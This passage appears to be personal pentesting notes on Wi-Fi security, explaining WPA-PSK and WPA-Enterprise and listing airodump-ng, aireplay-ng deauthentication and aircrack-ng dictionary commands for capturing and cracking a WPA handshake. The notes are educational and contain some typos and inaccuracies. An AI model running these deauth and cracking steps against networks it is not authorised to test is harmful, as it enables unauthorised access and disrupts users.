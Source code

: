 ```nslookup, ls -d, <domain name>```; or dig  

## WPA

### WPA-personal aka WPA-PSK
Designed after WEP to address all issues that made WEP very easy to crack. The main issue with WEP is the short IV, wich is sent in plain text. In WPA however each packet is encrypted using unique temporary key. So doesen't matter how much traffic we sniff, because they do not contain any useful information that can help to crack the key same for WPA2. **the only difference between WPA and WPA2 is that WPA2 uses an algorithm calles CCMP for encrytpion.
On **WPA personal or WPA-PSK** we have one password for all the users. Password storen in the wireless client and if the password is changed on AP we must change manually form all the devices connected at the AP and **Wireless access cannot be individually managed**.

The only packets that contains information that can help us to determine the key are the handshake packets. These are the four packets sent when a new device or a new client connects to the targhet network. Using **airckrack-ng** we can use a wordlist, testing each password in the wordlist using the handshake.

### ATTACK WPA-PSK
1. capturing the handshake 
    - ```airodump-ng --bssid xx:xx:xx:xx:xx:xx --channel xx --write test-handshake wlan0```

1. if we dont find any handshake we can cause them with deauth attack
    - ```aireplay-ng --deauth 4 -a xx:xx:xx:xx:xx:xx<AP MAC> -c xx:xx:xx:xx:xx:xx<MAC CLIENT DEAUTH> wlan0```

1. crack the key with dictionary
    - ```aircrack-ng test-handshake-01.cap -w wordlist```


### WPA-Enterprise
Also referred to as WPA-802.1X mode, this is **designed for enterprise networks** and requires a RADIUS authentication server. This requires a more complicated setup, but provides additional security (e.g. protection against dictionary attacks on short passwords). Various kinds of the Extensible Authentication Protocol (EAP) are used for authentication. WPA-Enterprise mode is available with both WPA and WPA2. When users try to connect to Wi-Fi, they need to present their enterprise login credentials. Users never deal with the actual encryption keys. Attackers cannot get the network key from clients and offers individualized control over access to a Wi-Fi network.

#### WPA-PSK VS. 802.1x (Enterprise)
**WPA-PSK** uses pre-shared key. **WPA-Enterprise 802.1x** uses 802.1x and a RADIUS server, EAP (Extesible Authentication Protocol), which may be one of: EAP-TTLS, PEAP, EAP-FAST. Both WPA-PSK and WPA-Enterprise use Four way handshake to establish: Pairwise transient key (used for unicast communications), Group tempral key (used for multicast and broadcat communications). 

Three Encryption Options: 
1. **WEP** -> use RC4 and easily exploitable. 
1. **TKIP** -> quick replacement for WEP (runs on old hardware), still use RC4 but no major vulnerabilities are known. 
1. **AES-CCMP** -> (Advanced Encryption Standard with Ciper Block Chainig Message Authentication Protocol) most secure reccomended.

### ATTAKING WPA ENTERPRISE
This means to attack EAP (Extensible Authentication Protocol). Tecniques depends on the specific EAP type used (LEAP or EAP-TTLS and PEAP). First must detect the type of EAP with wireshark.

###  1 LEAP 
Leap is a proprietary protocol from Cisco Systems developed in 2000 to address the security weakness common in WEP. Is an 102.1x schema using a RADIUS server.
```